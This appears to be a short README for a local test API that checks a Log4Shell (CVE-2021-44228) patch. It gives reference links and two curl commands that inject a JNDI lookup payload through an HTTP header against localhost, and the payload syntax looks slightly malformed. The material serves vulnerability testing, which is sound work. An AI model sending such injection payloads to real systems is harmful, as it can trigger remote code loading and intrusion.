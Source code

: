 
This is a API for checking vulnerability patch 

For more details refer these links
all information in these links are responsible on first author 


- https://www.youtube.com/watch?v=ipWGc...
- https://nvd.nist.gov/vuln/CVE-2021-44228
- https://spring.io/blog/2021/12/10/log...
- https://github.com/christophetd/log4s...
- https://www.lunasec.io/docs/blog/log4...
- https://mbechler.github.io/2021/12/10...

- https://logging.apache.org/log4j/2.x/security.html
- http://www.slf4j.org/log4shell.html

URL ENCODE AND DECODE ONLINE
- https://meyerweb.com/eric/tools/dencoder/

Using curl commands 

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap:http://127.0.0.1/a}'

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap:http://127.0.0.1:8080/a}'


